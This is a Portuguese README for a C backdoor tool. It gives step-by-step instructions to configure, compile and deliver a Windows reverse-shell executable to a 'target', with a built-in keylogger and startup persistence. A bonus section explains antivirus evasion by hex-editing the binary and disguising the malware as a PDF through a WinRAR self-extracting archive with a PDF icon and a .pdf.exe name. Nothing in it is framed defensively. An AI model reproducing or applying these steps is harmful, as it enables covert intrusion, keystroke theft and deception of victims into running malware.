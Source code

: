 # Backdoor C
Backdoor Feita em C com algumas 2 funcionalidades extras 
## Pre-requisitos
Você ira precisar ter o gcc instalado
```
sudo apt install gcc
```
Ira precisar do mingw
```
sudo apt install mingw-w64
```
E também ira precisar de qualquer editor de texto
## Como deixar funcional
Primeiro abra o arquivo ```Backdoor.c``` e modifique as linhas 145 e 146 mudando o endereço IP e porta

Depois faça o mesmo no ```server.c``` porem nas linhas 28 e 29 depois basta compilar
## Como compilar
Primeiro vamos compilar o ```server.c``` usando o ```gcc```
```
gcc server.c -o ArquivoFinal
```
Depois de compilado vamos para o arquivo principal 
porem iremos compilar para Windows 32bits então usaremos o ```mingw```
<details>
  <summary>:zap: Por que 32bits ?</summary>

  Quando compilado em 32bits ele ira poder rodar em qualquer computador windows inclusive  64bits

</details>

```
i686-w64-mingw32-gcc -o NomeDaBackdoor.exe Backdoor.c -lwsock32 -lwininet
```
## Como usar 
Primeiro iremos iniciar o listener em nossa maquina
```
./ArquivoFinal
```
Depois enviamos o aquivo ```.exe``` para o "Alvo"

E logo quando ele executar o arquivo iremos receber uma conexao reversa
## Comandos
As 2 funcionalidades extras sao um keylogger e uma persistencia

executando o comando 
```
keylog_start
```
O seu keylogger ira iniciar ele ira salvar todas as saida do teclado em um arquivo chamado "windows.txt"

Para ler o arquivo com as saidas digite
```
type windows.txt
```
<details>
  <summary>:zap:oque e um keylogger ?</summary>
  
  keylogger nada mais e do que um programa que captura tudo que for digitado
</details>
O segundo comando e da persistencia

iniciamos ele executando 
```
persistence
```
Ele ira nos retornar uma saida nos dizendo a onde foi criada a persistencia


<details>
  <summary>:zap:oque e uma persistencia ?</summary>
  Persistencia e basicamento um script que quando executado ira fazer
  
  o seu malware ser executado sempre que o PC for ligado
</details>

# Bonus
Nesse bonus eu irie te mostras algumas formas de deixar sua backdoor "indetectavel"

## Modificando o codigo HEX
Eu irie te mostrar como modificar o codigo Hex da nossa backdoor 

Para deixar ela ainda mais indetectavel

Primeiro iremos usar um programa chamado ```ghex```

Para instalar o mesmo use 
```
sudo apt-get install ghex
```
Logo depois iremos abrir o editor em nosso arquivo .exe
```
ghex malware.exe
```
E ira ver algo parecido com isso


![Screenshot from 2020-09-16 13-06-16](https://user-images.githubusercontent.com/62577914/93418429-64418180-f878-11ea-86a6-09c611230ae3.png)


Agora nos iremos modificar apenas as strings
Voce deve modificar apenas na onde ta escrito "This program cannot be run in DOS"
Localize essa parte usando as setas do teclado 
voce podera inserir qualquer valor decimal
Voce tambem podera comentar no ```Backdoor.c``` coisa aleatorias que ira ajudar 

## Escondendo em arquivo PDF
voce ira precisar de um ico de um pdf qualquer e do malware(obvio)
e do [winrar](//www.win-rar.com/)

voce podera encotrar a imagem no [Iconfinder](https://www.iconfinder.com/)
entao pesquise por PDF e escolha a desejada
voce ira ver algo parecido com isso 
![Screenshot from 2020-09-17 00-16-36](https://user-images.githubusercontent.com/62577914/93419836-d4053b80-f87b-11ea-859d-6e7a21733121.png)
E entao clique em "Download Icon in PNG"

Mas nos nao queremos uma imagem .png mas sim .ico

entao usaremos o site [Icoconverte](https://icoconvert.com/)
clique em "choose file" e escolha imagem que baixamos anteriormente e entao clique em upload
![Screenshot from 2020-09-17 00-23-42](https://user-images.githubusercontent.com/62577914/93420439-e16ef580-f87c-11ea-8ed0-a2168d79861f.png)

E entao escolha o tamanho de 64x64 entao clique em "convert to ICO" depois basta baixar ela
![Screenshot from 2020-09-16 14-10-43](https://user-images.githubusercontent.com/62577914/93420787-b1742200-f87d-11ea-99a1-99a130719a6d.png)


Agora iremos juntar todos em um so

Primeiro selecione o arquivo PDF e o malware clique com o botao direito e va em "add to archive"
![Screenshot from 2020-09-16 14-04-03](https://user-images.githubusercontent.com/62577914/93420905-ff892580-f87d-11ea-831d-b4f04ab96787.png)
E entao no campo nome coloque 
```
nome do arquivo.pdf.exe
```
Fazendo isso ira automaticamente marcar uma opcao SFX

Depois fazendo isso va em advanced > advanced SFX options > setup

E em "Run after extraction" coloque o nome do arquiv ```pdf``` e em baixo o nome do ```malware```
![Screenshot from 2020-09-17 00-39-07](https://user-images.githubusercontent.com/62577914/93421243-cf8e5200-f87e-11ea-9676-c2c7e2b49988.png)

Depois va para ```modes``` e marque a opção ```[] Unpack to temporary folder``` e ```hide all```
assim como mostrado na imagen ![Screenshot from 2020-09-24 21-07-34](https://user-images.githubusercontent.com/62577914/94215613-375e2180-feab-11ea-9777-f918d8ecf93e.png)


Depois va em ```Text and icon``` e logo a baixo na opção ```Load SFX icon from the file``` 
clique em ```browser``` e selecione o ```.ico```que baixamos anteriormente

Depois va em ```update``` e marque a opção ```Extract and update files```
e tambem ```Overwrite all files``` 
Agora voce pode comfirmar tudo clicando em ```ok```

Apos fazer a confirmação o arquivo ira ser criado

visualmente se parece identico ao um arquivo pdf 
![Screenshot from 2020-09-24 21-24-47](https://user-images.githubusercontent.com/62577914/94216459-65446580-fead-11ea-890a-62a49219738d.png)

# E pronto seu arquivo PDF malicioso foi criado
# Caso queira esconder em uma imgem basta fazer o mesmo processo apenas subistituindo a extensão e nome
